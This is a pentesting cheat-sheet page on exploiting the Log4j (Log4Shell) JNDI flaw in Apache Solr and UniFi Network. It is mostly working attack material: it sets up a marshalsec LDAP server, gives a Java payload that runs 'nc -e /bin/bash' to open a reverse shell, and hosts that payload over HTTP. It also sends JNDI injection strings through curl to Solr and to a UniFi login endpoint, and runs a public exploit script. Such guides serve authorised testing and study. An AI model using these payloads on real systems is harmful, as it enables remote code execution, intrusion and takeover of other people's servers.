 ```yaml
---
title: Log4j Pentesting
desc: Log4j has zero-day vulnerabilities to Log4Shell, Log4Unifi.
tags: [Apache, Java, JNDI, Log4j, Log4shell, Maven]
alts: []
render_with_liquid: false
---
```


## 1. Exploit Apache Solr (JNDI)

You need to prepare your four local terminals.

1. **Start LDAP Server on Your Local Terminal 1**

    1. **Install Maven**

        ```sh
        sudo apt install maven
        ```

    2. **Get the Payload**

        Download the repository.

        ```sh
        git clone https://github.com/mbechler/marshalsec.git
        cd marshalsec
        ```

        Then build the marshalsec utility

        ```sh
        mvn clean package -DskipTests
        ```

    3. **Start LDAP Server**

        ```sh
        java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your-local-ip>:8000/#Exploit"
        ```

2. **Host the Exploit on Your Local Terminal 2**

    1. **Create the Exploit with Java**

        First, create a new directory and create a new exploit named "Exploit.java" in the directory.  
        Open your favorite editor like vim.

        ```sh
        mkdir exploit
        cd exploit
        vim Exploit.java
        ```

        In editor, enter the following code.

        ```java
        public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <your-local-ip> <your-local-listener-port>");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        }
        ```

    2. **Compile the Payload**

        ```sh
        javac Exploit.java -source 8 -target 8
        ```

    3. **Start Web Server to Host the Payload**

        ```sh
        python3 -m http.server 8000
        ```

3. **Open Listener on Your Local Terminal 3**

    ```sh
    nc -lvnp <your-local-listener-port>
    ```

4. **Access the Target Apache Solr Admin UI**

    ```sh
    curl 'http://<target-ip>:<target-port>/solr/admin/cores?foo=$\{jndi:ldap://<your-local-ip>:1389/Exploit\}'
    ```

<br />

## 2. Exploit Unifi Network using Log4Unifi

**Log4Unifi** is an exploitation Log4j tool in **Unifi Network**.

1. **Test the Vulnerability in the Target Web Page**

    ```sh
    curl -i -s -k -X POST -H $'Host: vulnerable.com:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://9ulral.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://<target-ip>:8443/api/login'
    ```

2. **Open Listener on Your Local Machine**

    ```sh
    nc -lvnp 4444
    ```

3. **Exploit**

    Download the exploit from [the repository](https://github.com/puzzlepeaches/Log4jUnifi){:target="_blank"}.

    ```sh
    git clone https://github.com/puzzlepeaches/Log4jUnifi
    cd Log4Unifi
    ```

    Exploit

    ```sh
    python exploit.py -u https://<target-ip>:8443 -i <your-local-ip> -p 4444
    ```

Reference: [https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi){:target="_blank"}
